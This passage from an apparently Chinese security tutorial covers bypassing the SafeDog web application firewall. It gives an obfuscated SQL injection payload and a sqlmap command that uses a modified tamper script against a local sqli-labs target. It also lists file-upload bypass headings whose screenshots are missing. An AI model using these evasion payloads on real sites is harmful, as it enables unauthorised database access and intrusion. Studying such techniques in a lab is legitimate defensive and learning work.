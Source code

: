 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

* * *

  

### **第六种：**

贴图太累了，放弃

```
`#数据库``?id=\Nunion/*!14444select*/1,database(%23%0a),3`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

* * *

###   

### **3. tamper编写**  

可以对已经存在的tamper加上上面的payload进行魔改，例如：在tamper versionedmorekeywords.py里面进行替换：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

替换完成后使用该tamper就可以过狗了：

```
sqlmap -u "http://192.168.198.129:86/Less-2/?id=1" --tamper=safedog.py --ramdom-agent --delay=0.5 
```

* * *

  

**文件上传**

环境同上。

**①截断  
**

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**②去掉引号**

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**③引号**  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

引号2

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

引号3
